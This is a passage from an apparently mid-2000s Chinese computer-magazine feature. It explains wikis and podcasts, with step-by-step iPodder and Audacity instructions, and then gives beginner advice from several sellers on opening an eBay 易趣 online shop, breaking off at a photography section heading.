建立 Blog 很简单，大概只需要几分钟的时间。难就难在日复一日地更新和维护，但是也只有这样，才能吸引更多人的目光。

首先，你得喜欢博客，只有这样，才会有动力天天去更新。此外还要对游客的回复进行管理，因为肯定会有一些不健康的信息和广告发布在自己的博客上面，如果不定时清除的话，也会影响自己博客的质量。另外多添加一些友情链接，这样也会给自己带来一些流量。虽然大部分 Blog 程序提供了众多的模板，但是为了让自己的 Blog 更具有个性，应该另外多学一点电脑知识，好对自己的 Blog 进行个性化设置。如果文章多了，还需要对自己的文章进行类别划分，这样浏览者可以根据类别来找吸引自己的文章。

CFan2005年第7期《今天 我要在家做主编》一篇文章中也对博客的搭建做了介绍，大家可以参考。

## 维基——把你我所知的分享给全世界

维基这个东西还不为广大中国网民所熟知，但它不过是博客的一种进化，维基也是一个具备博客精髓的完整网站，不过浏览维基网站的每一个人都拥有发表言论和修改内容的权力，维基人也称“维客”，他必须具备“维基精神”，即一方面是原创精神，另一方面，则是懂得如何理性地和所有其他人一起进行知识分享与合作。《新周刊》蒋亦凡的一篇《“自由百科”狂欢节》可以让你很好的把握维基的精髓所在:http://culture.163.com/partner/weekly/editor/040322/040322_83960.html。

Wiki(中文名为:维基)。Wiki 是一种超文本系统，支持面向社群的协作式写作，同时也包括一组支持这种写作的辅助工具。同时，Wiki 的写作者构成了一个社群，Wiki 系统为这个社群提供了简单的交流工具。与其他超文本系统相比，Wiki 有使用简便且开放的优点，所以 Wiki 系统可以帮助我们在一个社群内共享某个领域的知识。

从严格意义上来说，维基是博客的一种。两者的区别是，维基都有“edit this page”的链接，允许访问者对页面做出修改。这个链接的存在是 Wiki 区别于 Web log 和 Blog 的地方，后两者只允许读者发表针对性的评论来提供反馈信息，但是除了编辑自己发表的内容，不能修改原作者或者其他读者发布的信息。

Blog 可以用来建立由具有共同兴趣爱好的人们组成的社区。而维基在这个基础上更向前迈了一步，可以构建共识(consensus-building)。给大家举一个形象的例子，维基就好像在上学的时候，同学们都在教室里面，每个人都可以说出自己的想法，然后大家来对这个想法进行修改，如果这个想法不好，还可以将这个想法删除掉，这样你就可以对维基有了个大致的印象。

## 维基的诞生

在1995年，美国程序设计员沃德·坎宁安创建了第一个维基(WikiWikiWeb)系统，堪称“维基之父”。“维基”这一名称来自坎宁安在夏威夷度蜜月的经历。在夏威夷，从机场出发的公交车就叫“Wiki Wiki”(意思是“快点快点”)。而吉米·威尔士则是互联网上最大的百科全书维基百科全书(www.Wikipedia.org，其中文网页始于2002年)的创始人。WikiWikiWeb 是各种软件的在线帮助手册，来自全球各地的人都可以在上面写一点东西。坎宁安知道，任何产品的用户对产品都有一个了解的过程。如果将这些了解以正确的方式“拼凑”起来，用户对这个产品的认知甚至比产品的创造者还要多。 当坎宁安的 WikiWikiWeb 在朦胧中快乐地前进时，吉米.威尔士正在寻找一种途径，将他酷爱的百科全书和互联网结合起来。 威尔士曾用两年时间创办了一个名为“Nupedia”的在线百科全书，但它只拥有十几篇文章。“Nupedia”的问题在于它组织严密的系统，文章要想最终在“Nupedia”上发表，需要经历7个调查和评审阶段。 此后，威尔士发现了“维基”，从此开始了辉煌的创业历程。他的新目标是创建一个免费的百科全书，任何人都可以用自己喜欢的语言编写。仅仅两周，维基百科全书的成长速度就超过了它的前辈“Nupedia”。

维基百科是目前世界上最大的 Wiki 系统，它是一个基于 Wiki 和 GNU FDL(GFDL)的百科全书网站系统，致力于创建内容开放的百科全书。该系统于2001年1月开始投入运作，2001年2月超过10,000条条目，2001年7月超过10,000条条目，至2005年3月，英文条目已经超过50万条，远远超过了《2005大英百科全书》的6.5万个条目。自2002年10月至今，全世界的维基人已写成35,185项中文百科条目。非盈利机构“Wikimedia基金会”只有一个雇员，他的工作就是保证服务器正常运转。

> **你知道吗？**

GNU 自由文档协定证书(GNU Free Documentation License)是一个版权属左(或称“反版权”)的内容开放的版权协定。它是由自由软件基金会为了 GNU 计划于2000年发布的。目前1.2版的全文可以到 www.gnu.org/licenses/fdl.html 查询。该协定适用于所有计算机软件文件以及其他参考及指导材料。协定规定，所有使用了该协定的材料的衍生品，不论是经过修改或转载，也都必须采用 GNU 自由文档协定证书。采用该协定的材料可以用以商业用途，但必须允许任何愿意遵守该协定的人士在该协定下进一步修改或散发材料。

## 维基的现状

跟博客相比，维基的现状不容乐观。因为维基多人协同写作的独特特性，为网站建设提供了崭新的思路，让大家来贡献内容，岂不是众人拾柴，很快就搭起一个出色的网站来了？于是，从2004年下半年开始，国内陆续出现了很多维基网站。但是事情并不是那么简单，内容的积累、人气的聚集都成为维基网站的巨大门槛。经过一段时间的尝试之后，大量国内维基网站被挡在门槛之外，没能继续走下去。这也就是为什么现在维基网站的数量非常的少的一个重要原因。

除此之外，大部分维基网站内容空洞也是吸引不了别人的一个重要原因。很多维基网站中的内容太过一般化，没有阅读价值。对于特色内容，由于专业知识和文笔方面的要求，对贡献者的数量产生了较大限制。仅仅站长撰写主力内容，在整个维基站点的内容里分量不足。

就目前来说，维基网站比较成功的还是维基百科全书，其模式宽泛而松散，多数东西都可以用来充实百科知识。然而，维基百科的杂草堆模式很难复制。首先维基百科已经具有了巨大的内容基础；其次在其他领域里随意撰写资料，似乎并没有良好效果。建立维基网站的站长，很多是某些领域的爱好者，并没有规划专题网站的经历，也没有大量撰写专栏文章的积累。在网站内容的管理上，站长们在专题内容建设受阻时，往往受到维基百科模式的影响，东一榔头西一棒槌的贡献，没有具体的章法。也许对于更多的维基站点而言，围绕某个专题开展协作活动更现实可行。漫无目的地贡献结果，也许未来并不能建成大厦，而始终像个杂乱的工地。维基网站虽然很吸引人，但是想长期办下去，却是一件很难的事情。

## 如何参与到维基当中

在维基的主页上，你可以通过编辑页面，创建新页面，宣传维基百科和其他许多方法来参与维基百科协作计划。

如果你要在维基中建立新的页面，那么最好在建立之前先搜索维基百科现有的条目，以查看是否已经有人建立了该页面或相似页面。如果自己要建立的页面已经有人建立的话，那么就不需要再创建另一个新页面，或许你只需要创建一个重定向页。要创建新页面，可以从现有页面上的一个指引到新页面题目的链接开始。

此外在阅读维基百科条目时，有时候会发现一些链接指引到还没有内容的条目(像这个链接:不知名链接)。点击这个链接会直接转到一个编辑页面，可以直接开始编辑这里没有的内容。在最新版维基百科中，这些链接以红色显示。

而编辑一个维基页面也十分容易，只要点击页面上方的“编辑本页”或右侧的“编辑”链接即可修改该页，或点击“讨论本页”然后再点击“编辑页面”来讨论该页面。点击后就会看到一个包含那个维基页面的可编辑的文字区域。然后就可以输入文字，再在文字区域下的栏中输入编辑摘要，完成后点击“保存本页”就可以。当然也可以在保存前先预览自己的修改，先将文字复制到您最喜欢的文字编辑器，编辑并检查后再贴回浏览器预览往往更方便。这样做方便你断线后用备份档做修改。

有关维基百科全书的详细使用方法和技巧，你可以参考网站 http://zh.wikipedia.org 上的《使用指南》

## 作一个维客的态度

维基上的内容比较杂，在理论上说，没有人可以控制维基的内容，同时每个人都可以控制。每个读者对维基上的内容都拥有修改，添加和删除的权利，只要他感觉合适。对一些组织来说，接受这种缺少集中控制的状态需要在观念上有比较大的改变。维基看起来像是一个进入无政府世界的邀请——对网上恶意破坏的人来说他们可以随意地修改，甚至删除一些重要的内容—但是在现实中，这种情况几乎不会发生。这样就要每个维客都要有高度的自觉性，不要轻易删除和修改别人的东西。只有这样，才能够让维基更好的生存下去。

不过为了防止重要信息被修改或删除，维基站长可以对某些特定的页面进行“保护”，使其不可修改。事实上，即使一个重要的页面已被删除或修改了，也不用担心。Wiki 是一个网上信息数据库，每次对其进行的修改都会被记录下来，并且是可恢复的。

## 播客——看得见听得到的自由表达

成为一名播客的技术壁垒并不高，成本花费也不多。只要一台上网电脑、一个麦克风，你就可以成为一名播客，你就可以成为一名 DJ 或是节目主持人，而你的受众是全世界。

播客：掀起你的盖头来

## 电脑爱好者

播客和博客倡导的精神和理念一脉相承：民有、民治、民享的媒体。

播客（Podcast 或 Podcasting），是苹果电脑的“iPod”与“broadcast（广播）”的合成词，指一种在互联网上发布文件并允许用户订阅 feed 以自动接收新文件的方法，或用此方法来制作的电台节目。订阅播客节目可以使用相应的播客软件。这种软件可以定期检查并下载新内容，并与用户的便携式音乐播放器同步内容。一般来说，任何数字音频播放器都可以播放播客节目。同时，播客技术也可用来传送视频文件。如果要是说博客和维基还有一些本质上的区别，那么博客和播客的区别就是，把博客中的文字换成了音频或视频，可以说播客就是博客的影音视频版。但是当博客进化成播客，个人化广播却带来网络的革命。

## 小知识

- Podcasting从其意，被译为“自助广播”；
- Podcaster从其意且从其音，被译为“播客”；
- 在Blog（现译为博客）初进中国时，Blog和Blogger（写Blog的人），中文统称“博客”，某些情况下引起了不少困惑。有此前鉴，Podcast和Podcaster再统称“播客”似有不妥，所以很多时候Podcast被译为“波刻”（取“声波刻录”之意），而制作的人和网站被称为“播客”。

## 播客的由来

Harold Gilchrist 和 Adam Curry是博客中最早使用这项功能的人。2003~2004年，Dave Winer 帮助前脱口秀主持人 Christopher·Lydon 在其在哈佛的博客里添加声音文件，Lydon 关于2003-2004年度美国总统竞选的长篇报道敦促了 Curry 脑中描述 iPod 一族的想法。

2001年，Dave Winer 在RSS2.0说明里增加了声音元素，之后，Winer 的公司 UserLand Software 把这项功能内嵌到其博客软件中。

2004年2月12日，镜报文章“听觉革命：在线广播遍地开花”中涉及“podcasting”这一概念，但是没有提及“自动－同步”这个概念。

2004年9月15日，Dannie J. Gregoire直接使用“自动－同步”这一概念来描述 Adam Curry 提出的“自动下载，同步播放”这一想法。Gregoire还抢注了和 podcasting相关的一系列域名，podcasting.net就是其中一个。

而播客真正开始流行的时候是在2004年底2005年初，美国一些非赢利性广播台发现播客很适合他们制作的讲故事、专访、评论、对话等节目。如果说博客已经对传统纸质媒体造成挑战的话，那传统的广播电台则要应对播客的压力了。借助于RSS技术将MP3音频文件连缀起来，也就形成具有强大生命力的虚拟电波频段。

网友可以将网上的广播节目下载到自己的iPod等MP3播放器中随身收听，享受随时随地的自由。你更可以自己制作声音节目，并将其上传到网上与广大网友分享。

播客它是数字广播技术的一种，出现初期借助一个叫“iPodder”的软件与一些便携播放器相结合而实现。Podcasting录制的是网络广播或类似的网络声讯节目，网友可将网上的广播节目下载到自己的iPod、MP3播放器或其它便携式数码声讯播放器中随身收听，不必端坐电脑前，也不必实时收听，享受随时随地的自由。更有意义的是，你还可以自己制作声音节目，并将其上传到网上与广大网友分享。就像博客颠覆了被动接受文字信息的方式一样，播客颠覆了被动收听广播的方式，使听众成为主动参与者。甚至有人说，播客可能会像博客一样，带来大众传媒的又一场革命。

播客更像一个自助广播，是全新的广播形式。收听传统广播时我们是被动收听我们可能想听的节目，而播客则是我们选择收听的内容、收听的时间以及以何种方式让其他人也有机会收听，所以理论上人人播客是可能的。

## 播客的现状

刚开始的时候播客并不受到大家的关注，但随着宽带的普及和自动下载声音文件等相关技术的不断进步，播客（特别是MP3博客）、RSS、新闻阅读器等迅速结合并流行开来。当博客们对RSS技术运用自如时，广播台的音频内容也不断出现，并且很大一部分节目制作成流媒体格式。

虽然播客出现的时间并不是很长，但是发展却非常的迅速，这是因为播客和广播、网络电台上有本质的区别。广播和网络电台都是一对多的传播，一个节目源在中心，许多人接收。而播客传播中，首先听众们是自动下载音频文件；其次接收者也可同时拥有节目的源数据，如节目日期、节目标题、节目描述等。而播客在时间上是相对自由的。这有两方面含义，一是可以随时收听；二是收听的时候可以自由控制听哪段、不听哪段。如此有个弱点就是播客没有听众的实时参与，也不能像传统广播一样快速到达大范围受众。

但和传统广播相比，播客有个最大的优点就是它的平等性。多数国家的广播频谱是被严格控制着的，个人很难或者根本无法获得广播许可证。播客让每个人都有机会轻易在世界范围内传播信息。播客技术可以使千千万万像克拉斯这样的普通网民成为独立广播制作人或者节目主持人。从理论上讲，只要拥有一台上网电脑和一个麦克风，你就可以掌握话语权，并以自己特有的风格向全世界播音。

这对听众们也是一个福音。因为播客技术就像视频点播一样，只要听众在一个网站注册并成为订户，程序就会自动为其下载一个数字播放器。听众不必再像从前一样必须将就电台的节目表，完全可按照自己的时间随意收听节目。广播的含义从此将彻底改变。

以前为了听到感兴趣的节目，不得不锁定一个电台并整天开着收音机，很多无聊节目入耳，浪费时间且被插播广告弄得心烦意乱。现在可以同时锁定全世界的广播电台，并轻而易举地找到想听的节目。

正因为有上面的区别，所以播客很受广大网民的欢迎。但就目前来说，国内的播客网站还是很少，这也跟没有太好的播客主题有很大的关系。

## 迅速拥有自己的播客圈

由于播客的特殊性质，所以宣传方式要跟博客有一定的区别。最好是有一个属于自己的论坛，然后在论坛上建立一个播客专区，让大家来对播客的内容进行讨论。这样就能知道，都什么样子的话题会引起其他人的兴趣。将这些资料进行整理，然后根据这些资料来录制播客的内容。

有好的内容还远远不够，还需要进行宣传才可以。开始的时候可以到一些音乐论坛去发一些帖子，从那里也可以找到一些喜欢播客的朋友。这样坚持下来，在很短的时间内就可以迅速拥有自己的播客圈。

## 玩转播客

想要玩转播客，你首先要成为一名“听客”，会听才能知道自己需要播什么。

### 1. 如何成为一名听客？

当一名听客其实很简单，你只要有三点准备：

#### （1）心理准备

转变观念： MP3不再只是音乐播放器！ 它是一个新的内容平台！

自播客十月革命以来，大量的播客涌现，这些播客创造的波刻（Podcast）万象纷呈，从新闻、音乐、体育、购物到教育、宗教，几乎无所不包。同时，一些广播电台如 KOMO （KOMO 1000 AM）、XM广播电台（XM Radio）、CBC广播电台、波士顿公共广播电台（WGBH）和 BBC 广播电台也开始提供波刻节目。

它可以是两个意思： 播客制作的节目（名词）和播客制作节目（动词）。

MP3播放器，既是你的八音盒，也是你的数码百宝箱；你听到的既可是音乐，也可能是一次采访、一场演说、天气预报、情书…… MP3播放器不再只是音乐播放器了！

#### （2）硬件准备

一台可以上网的电脑、一部MP3播放器（当然，还可以是智能手机、PDA等其他便携媒体播放器）。iPod是MP3播放器的代名词，但它并不是唯一的选择。Podcasting的“Pod”可以是其他任意一款MP3播放器。

#### （3）软件准备

下载必要的播客接收软件。

Ipodder 是Adam的创造，除此之外，还有其他几款软件如 Doppler, jPodder 以及 BlogMatrix 和 iPodderX等，鉴于大多数的用户都是使用Windows，以上介绍的软件都是支持Windows的。当你“订阅”了你想听的那些波刻节目后，这些软件就会自动地把那些最新的节目“送”到你的电脑中。

下面以iPodder为例，来看看具体怎么操作。

第一步：到 http://ipodder.sourceforge.net/index.php#download 网站，Windows用户选择“Windows 下载”后到转到的新页面中选择其中的任意一个镜像下载站点，把iPodder下载到你的电脑中。

安装完成后，点击主菜单“Tools → Select Language → 简体中文”，即可让IPodder变为全中文版本。

如果第一次启动被软件提示选择内码，选择“English”的任意内码即可。

第二步：启动iPodder软件后选择主菜单“定时器→打开定时器”，自定义多长时间让iPodder接收最新的波刻。我们选“在固定时间间隔内检查”，再选“30分钟”。这样，iPodder每隔30分钟就会自动查找最新的订阅节目了。

第三步：点击主菜单中“工具→加新feed”，在弹出的“加一个新Feed”窗口中添加你想“订阅”的波刻feed（Podcast Feed）。以“播客宝典”为例，我们添加“http://www.hopesome.com/wp-ipodder.php”，点击“保存”完成添加。

第四步：在主窗口的“订阅”标签就可以看到我们新加入的feed，这是在该项上单击鼠标右键选择“立刻检查”，这是iPodder就会立刘为你搜寻新加入的波刻节目。

第五步：点击主菜单中的“文件→个人设定”，在弹出的“配置”标签中点击“下载 Podcast到此目录”旁的“浏览”按钮，选择将下载的波刻节目保存的位置。

现在大功告成了，只要播客宝典一有最新的节目，你的电脑就可以同步接收了。如果你同时“订阅”多个栏目，iPodder都可以把它们“送”到你的电脑硬盘中。

第六步：在你前面设定的下载目录中把你下载的播客拷贝到你的MP3播放器中，你的MP3播放器就真正成为一个“移动百宝箱”了。

当“听客”其实就是这么简单！

播客开启了一个全新的世界，它在解放你的耳朵的同时，改变你的生活方式。

应该看到，Podcasting还处于起步阶段。随着技术的发展，这一切有可能变得更简单，更人性化。尽管苹果（Apple）新近推出的iPod Shuffle让很多播客失望，认为其对Podcasting不够友好，但苹果显然不会坐失这块巨大的商机。在不久的将来，iPod新款就可能集成诸如iPodder之类的波刻接收软件，而且，很有可能，这些波刻会直接“送”到你的便携终端而不必经过电脑硬盘。

### 2. 如何成为一名播客？

要成为播客，很简单，只需要六个步骤：

- **第一步：准备一台能上网的电脑，一个耳麦。**
- **第二步：下载一个免费的录音软件 Audacity（下载地址：http://audacity.sourceforge.net/download/）。**
- **第三步：确定你想录什么？**
- **第四步：打开Audacity，按下红色录音键，开录！**

Audacity的使用非常简单。你想通过耳麦输入你说的话，只需要双击你屏幕右下角的喇叭，然后打开“选项”菜单点“属性”，然后选“录音”，确定，然后里打勾选择“麦克风”，最后点“确定”就设置好了。

如果你要录自己电脑上播放器播放的背景歌曲，同上设定过程，选择“立体声混音”就可以录歌曲了。

合成背景音乐的时候只需要导入录好的音轨，然后一并保存成wav或者MP3就可以了。也许你对效果不满意，剪辑也很方便，你可以像编辑文字一样编辑那些波浪线。Audacity给你提供了放大镜，时间拖曳等工具。你可以把想编辑的部分放大，这样可以剪辑得很细致，你还可以随意把音轨拖来拖去，调整到你希望的时刻，比如你希望正好和音乐同时开始说话，只要对齐这两个波浪线就可以了。

第五步：录好了别忘记保存。点击“File → Save Project”，建议你保存为“project”，这样你随时可以打开这个原始的音轨文件来修改或重新剪辑。然后你再存成wav格式“Export as WAV”就把多个音轨压成一个音轨。如果想存成MP3格式可以选择“Export as MP3”，但是这时你需要已经下载lame（下载地址：http://sourceforge.net/project/showfiles.php?group_id=290），并解压到某个目录。在第一次压MP3的时候Audacity会问你lame_enc.dll在哪里？你只需指向解压的那个目录，点选文件lame_enc.dll即可，以后Audacity就不会再问你了。

第六步：上传。这里介绍最“傻瓜”的EasyPodcast，下载地址（http://sourceforge.net/project/showfiles.php?group_id=130790%20），这个软件还不算成熟，但是它使你的上传变得非常简单，你只需3步就好。
打开你的MP3，点击“Creat final MP3 → Creat RSS → send”，万事大吉！

当然此前你要在“Tools”菜单下的“Option”选项里设好你的FTP地址、用户名和密码。
至此，你已经成为播客了！如果希望成为一名高级播客，播客宝典http://hopesome.com/index.php是你的必读。

今天我们纵览了博客世界的种种，如果你是爱好自由充满思想有个性又肯付诸行动将你的想法与全世界分享的人，你没有理由不投身博客世界的怀抱，不论是挥洒洋溢文字的博客、理性的总结和规范维基知识的维客、还是用你的声音和影像描述这个世界的播客，成为他们才是你真正自由的开始，请在互联网上自由地表达！

## 听他们讲开店的故事

### 开网店前的心理准备

营销专家：旷强
网络营销专家，个人电子商务资深人士。
曾任国内第一份个人网络创业报纸主编，
易趣店长资讯网创办人，海内外多家大型企业集团顾问，协助多家大型企业进入中国市场。
易趣店长资讯网：
http://www.eacha.com

想要成功经营网店，要先树立一定能够成功的信心，听听网店专家为你介绍通过网店已经达到经济独立的店主们的事迹，相信你会更有立刻加入网店大家庭的激情。

### 信心来自成功的经验

对一般人而言，工资就是全部或绝大部分收入，所以，只有上班才有收入。不过，凡事并不绝对，今天就让我告诉你，不上班照样有收入，而且可能比大多数人的收入都还要高！而且不受学历、资历、年龄的限制，也没有复杂的人际关系，不用挤公车、地铁，也不用成为塞车的对象。
不过，前提是你会上网，最好对网络比较熟稳。
其实也并不神秘，你不要以为我会告诉你一种闻所未闻的赚钱方法，当然，更不是让你学习如何破解别人的网上银行密码，都不是，只是在网上开店卖东西而已。所以说，一不神秘，二不新鲜，三，你可能还曾经尝试过，或者你身边的朋友尝试过或正在尝试。
但是，你知道吗？网上开店的确是可以赚钱的，而不仅仅是好玩。当你每天有300元以上的交易额的时候，利润收入大约和一个普通白领的月薪不相上下。
我认识很多这样的朋友，尤其是在上海，网上开店月利润收入超过5万元的小姑娘很多，甚至有些还是在校大学生。当然，更多的是1-2万元的月收入群体。在1年以前，2年以前，他们可能什么都不会，才刚刚开始尝试在网上开店做生意，但到了今天，他们在经济上已经通过自己的努力获得了极大的自由。
因为你也知道，互联网不光是中国有，全世界很多国家和地区都有，所以自然而然，国内发生的事情在国外同样有。我认识一对在英国留学的大学生情侣，在英国eBay开店半年，利润收入已经超过50万元人民币。当然，他们是将英镑折算成人民币。不过，这对我们绝大多数人而言，可以说是极大的诱惑，但这并非遥不可及，因为他们两个人的年龄加在一起才39岁而已。
我还认识一个在美国留学的博士MM，也非常不错，同样是在eBay开店，她在美国的费用完全依赖于此，当然，肯定是花不完的，她正打算用没花完的美金回国创业，就是开一家上规模的网店。对于他们这个群体，已经不用到华人餐馆刷盘子了，完全不用。
另外我还要告诉你，在美国，通过在eBay等网站开店，并且年收入在10万美金以上的人，已经超过15万人。这样的收入，即使是在美国，也是高收入群体。但是，他们并非毕业于名牌大学，也并非MBA，只是因为Internet，他们鸟枪换了大炮，改变了自己命运。
当然，还有很多你不知道的，而且不知道这些事情的人很多，所以我们需要共同来了解和学习这方面的知识，当然，作为这个领域的资深人士，我更鼓励大家马上去实践，在半年以后，或许你会辞职，跟你的老板再见。因为你已经不需要他给你发薪水。

### 如何选择开店平台

现在，选择网上开店的人越来越多，能够开设网店的网站平台也越来越多，如何选择是一个问题，其重要性并不亚于找什么样的老公或老婆。当然，区别还是有的，平台可以随时换，但老公或老婆却是不能随便换的。
一般来说，这样的平台只有两类，一是收费的，二是免费的。我发现，很多人都会选择免费平台，例如淘宝，尤其是刚开始学习网上开店的一些朋友，更是如此。所以我经常发现身边的店长陡然增多起来。但我同时也发现，这些店长的订单很少，甚至一个星期也没有一个成交，好不容易成交一笔，买家却没有完成交易……
其实，经过一段时间的磨练以后，他们也发现，在收费平台上的确能够保证交易量，而且成交一般都比较顺利。
但总体而言，这部分朋友还算不上真正意义上的店长，主要还是没有产生交易，或者交易量很少。
像eBay这样的交易平台，对于真正在网上做生意的个人是极为合适的，从2001年开始，我就开始关注并研究这个群体，看到太多成功的案例，甚至一些失败者在沉寂半年或一年以后再度取得成功的案例也不少。甚至，一些朋友在5年前注册的ID现在开始开店的也大有人在。基本来说，eBay更像是一个生意平台，网上开店也是做生意，如果要在网上做生意，就应当选择更为可靠的平台。当然，付费是前提，做生意肯定需要投入，即使是在网上做生意，也是需要方方面面的投入。
基本上，一些朋友跟我咨询在哪里开店合适，我都会这样来回答：要赚钱，上易趣；要尝试，去淘宝；要赚美金英镑，去eBay美国和英国。

### 迈出你成为网店店长的第一步

营销讲师：胡小玲（易趣大学讲师）
作为易趣大学的讲师，我有机会和全国各地的有网店经营想法的朋友们交流，在跟他们的交流过程中，我发现很多朋友面对eBay易趣改版后的交易平台种的按钮菜单还不太习惯，
这里为朋友们一步一步指导如何注册用户，如何登录自己的商品，这是开始网上经营最基本的常识，也是最重要的，这是迈出你成功经营网店的第一步。

### 关于易趣大学

易趣大学是由eBay易趣组织的有丰富实战经验的大卖家们开设的网上创业培训课程。易趣大学的办学宗旨是“致力于帮助每一位想在eBay易趣上开创一番网络事业的卖家们尽早地实现创业和财富梦想！”
易趣大学里的讲师都是易趣网上成功的大卖家。通过和她们面对面的交流，可以学到如何在eBay易趣上开展基础的销售、不同产品分类的网络销售策略以及图片拍摄和制作技巧、售后服务等网络经营整个环节的诀窍。到http://pages.ebay.com.cn/university/introduce.html可以了解易趣大学的具体课程。

### 让我们在易趣开个店吧

- 第一步：在易趣主页的右上角，点击“免费注册”按钮，进入注册流程。
- 第二步：根据网页表格填写具体交易信息，其中*号为必填项目。填写真实的用户信息，为以后的交易买家联系到你提供方便哦！
- 第三步：阅读服务条款，点击“继续”，表示已阅读和接受服务条款，基本的注册就完成了。
- 第四步：选择用户名和密码。用户名可以起中文，也可以起英文，最好能让大家容易记住，有特色的名字。如果你输入的名字有重复，系统会提醒你重新输入。
- 第五步：到注册的信箱里收取易趣系统发出的电子邮件，点击电子邮件中的链接，完成注册。同时，你就可以登录易趣，去选购五花八门的商品了。

### 小提示

#### 店铺定位

在开店之前，需要对自己经营的店铺做个定位。看看自己擅长经营哪方面或者对哪类商品有研究，只有自己对商品了如指掌，非常喜爱，才能更好地把商品的特点展示给你的买家。另外，需要分析网络消费群体的消费特征，看你选中的商品是否适合在网上进行销售，因为网上、网下毕竟有区别，要经历拍照、收款、邮寄等程序才能完成整个交易。同时，你也可以开始在易趣网上进行观察，发现网上哪些商品销售火爆，哪些市场还未得到开发，具有开发的潜力，能否找到相关货源。

# 想卖东西很简单

已经成为易趣注册用户的你，还处于未认证的状态，只能买东西。出于交易诚信和安全的考虑，注册用户必须先通过卖家认证，才能开始在易趣网出售商品哦！

三种认证方式供你选择，手机方式最便捷，需要身份证办理的那种手机才可以哦！身份证认证则需要提供身份证扫描件，一般10个工作日才能完成认证。最后一种是手工认证，比较麻烦，不建议采用。

通过认证的你，是不是急着要来一试身手了呢？下面跟着一起来看看如何登录商品吧：

- 第一步：创建商品。
- 第二步：选择分类。
- 第三步：上传商品图片。
- 第四步：选择卖法：一口价或竞标方式。
- 第五步：定价和付款。
- 第六步：定制可选特色功能。

填完这些，点击提交，你的商品就出现在易趣网上了！

# 给新手的建议

初来易趣卖东西的卖家，心态一定要调整好！因为初期就想卖出好多商品，赚好多Money是不现实的，必须有一个逐渐积累的过程。由于你刚来易趣，信用度不高，没有交易经验，人气不足，导致在一定时期内选择与你交易的买家可能很少，甚至没有。这个时候，可千万别着急别抱怨，也别打退堂鼓就这样放弃哦，要坚信自己能够成功，你需要多花时间查看你所在分类的市场情况，分析商品没有卖出去的原因！要想多学网上销售的技巧，去泡泡易趣的社区吧，这里有最热心的卖家朋友，你可以向有经验的卖家请教，或者把你的疑问发成帖子！相信你一定能够找到自己需要的答案！

当有第一个买家光临店铺拍下商品时，你需要及时和买家联系，确认买家购买的商品和汇款金额！买家汇款后请一定及时发货，并邮件通知！买家收到货品后，满意你的货品和服务，就会给你好评的。网上交易，买家非常注重卖家的信用哦，所以请每次交易都认真对待。相信你一定能够发展壮大的哦！

如果不小心碰到了交易纠纷，你需要及时的跟买家进行沟通，明确具体发生了什么事情，如果属于自己职责范围内而且可以解决的问题，应尽量满足买家的要求。

# 教你轻松找货源

店长： 理想-ivy
开店时间： 2003年6月
主营项目： 化妆品、香水
店铺名称： 常青阁

店铺链接：http://stores.eBay.com.cn/ivyshopivy

在易趣拥有自己的销售平台或者店铺确实非常容易，但是你想赢利，单凭卖卖家中那些不用的东西是办不到的，你一定要利用你的人际和地域优势，找到你的持续货源，这样才能让你真正拥有一个可以成为你现金流的网上店铺。下面我们听听有2年以上开店经验，并在易趣已成为化妆品销售冠军的理想-ivy店长，谈谈她是怎么寻找货源的吧。

（关于现金流的知识可以参考畅销书《穷爸爸富爸爸》系列）

刚开始接触易趣，是一个很偶然的机会，一个朋友跟我说有个拍卖的网站叫易趣，人气也挺火的。他常常去买东西，还向我展示他的“战利品”。然后朋友说：“ivy你可以把闲置的东西放上去拍卖，说不定卖个好价钱呢！”当时我就带着半信半疑、做一下尝试的心态，在易趣上注了册，然后放了几个Red Earth唇彩到网上去拍卖，刚开始也不是太有信心，放了十多天也没人问津，心想亏本新开户有红包赠送，不然的话就亏了。半个月后浏览的人多起来了，东西也卖出了，心里头有股难以形容的兴奋。随着卖出的商品越来越多，自己的信用度也不断的增加，当我每次看到顾客发来的邮件说“东西收到了，很满意，谢谢你！”以及在收到来自五洲四海的买家寄来的土特产时候，我的直觉就告诉我，这就是我想要的东西。如今，小店已经成为网站化妆品经营的佼佼者，每日的客流量常常多得应接不暇，我们已招了4名员工，组建了团队。是易趣给了我这样一个舞台让我尽情地发挥，让我可以不断地充实自己、提升自己、肯定自己……

下面我跟大家分享一下关于如何选择货源的经验：

- 1. 能够通过周围的亲戚朋友进货。当时，我有个朋友就是某名牌化妆品公司的，通过这个朋友，我找到了质量可靠、价格有优势的货源。
- 2. 当地的批发市场。每个城市都有这样的市场存在，这也是货源的最简单的方法，但是很多卖家都会忽略这个简单的方法，而把目光转向商品的原产地，其实在你开设网店最初的阶段，如果商品的销售量达不到一定量的话，在本地市场进货，已经完全可以满足你的需求了。
- 3. 网络货源。网络丰富多彩，为何我们不在网上找货源呢？好好利用google、百度和各专业搜索引擎，会有意想不到的收获。我们也可以通过一些专业网站，如中国服装网、中国批发网、中国饰品网等。通过网络寻找货源的时候，要多比较各个供应商的货品质量、款式、起批量等因素，并且要与供应商多沟通交流，建立信任。
- 4. 品牌代理。正规专卖店商品吊牌上基本上都有联系方式，如果你是个有心的人，可以拿起电话去联系一下，肯定会有很多发现，但是相对来说，直接联系品牌经销商，需要更大的进货量，因为以我的经验，越是正规的商品来源，它的价格折扣越是高，真正赚的钱，可能只是在完成销售额后拿的返点钱，所以，如果你的店铺已经发展到一定程度，想走正规化路线，这就会是个不错的选择！

最后祝你也能找到自己的货源成为店长大家庭的一员！

# 一张好图让你的宝贝脱颖而出

店长： 123456
开店时间： 2年
主营项目： 日韩潮流女装女鞋
店铺名称： mydressroom 潮流个性坊
店铺链接：http://stores.eBay.com.cn/

“eBay易趣，多倍乐趣”，开一家属于自己的特色店铺在网络信息发达的今天已经不再是遥不可及的了。注册一个用户名，把心爱的宝贝拍照上传到网站上，通过互联网和买家零零距离交易，一切就是那么简单。

大二的时候，朋友的姐姐谈起来可以在网络上买卖商品。平时上网只会聊QQ和简单游戏的我，一点都不知道网络购物。出于好奇，我登录了“易趣”，一接触便一发不可收拾，2003年春天我的特色小店“mydressroom 潮流个性坊”开张了。

才接触网络店铺，最痛苦的莫过于物品拍摄和图片制作，我在拍摄和制图上还有些小的经验和心得，希望对大家有帮助，高手看了也不要见笑哦！

# 商品拍摄有一套

